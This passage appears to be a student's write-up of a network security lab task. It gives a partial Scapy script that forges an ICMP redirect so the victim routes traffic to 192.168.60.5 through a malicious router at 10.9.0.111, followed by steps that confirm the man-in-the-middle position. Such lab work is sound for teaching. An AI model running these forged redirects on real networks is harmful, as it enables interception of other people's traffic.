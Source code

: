   ```python                                
      # sets the gateway as the mallicious router
      # tells the victim to send traffic to this ip which is the attacker mal router
      icmp.gw = '10.9.0.111'

      # This is the embedded original ip packer from the victim to the server
      # The enclosed IP packet should be the one that triggers the redirect message
      ip2 = IP (src = '10.9.0.5', dst = '192.168.60.5')

      # finally sending the message
      send(ip/icmp/ip2/ICMP()); 

    #This packet tells the victim:
    #"Hey, for traffic to 192.168.60.5, send it via 10.9.0.111 instead of me."
  ``` 
  * then you need to save it, then make it excutable using this command: 
    > chmod a+x **filename.py**
* Fourth step: you need to make a communication between the **victim** and the server, ie: ping from vitim to the server
  * from the victim machine, excute this command: 
    > ping 192.168.60.5 > log.txt
* Fifth step: you should run the script from the **attacker machine**, and theoritically if everything goes correct, you should establish yourself as man in the middle now, and you can see on the victim machine using mtr that the malicious router is now in between.    
* lets try and see if this will work out.  
  * executing ping on victim and route it to .log file
    * > ping 192.168.60.5 > log.txt
    * we need to keep the ping running for a while till we can see the malicious router in the middle between the victim and the server.
  * executing the script on the attacker 
    * ![alt text](image-25.png)
  * checking the route on the victim machine
    * ![alt text](image-28.png)
  * now we can see that the malicious router **10.9.0.111** is in the trace route from the victim to the server.
* This mean that TASK3 should be done :)
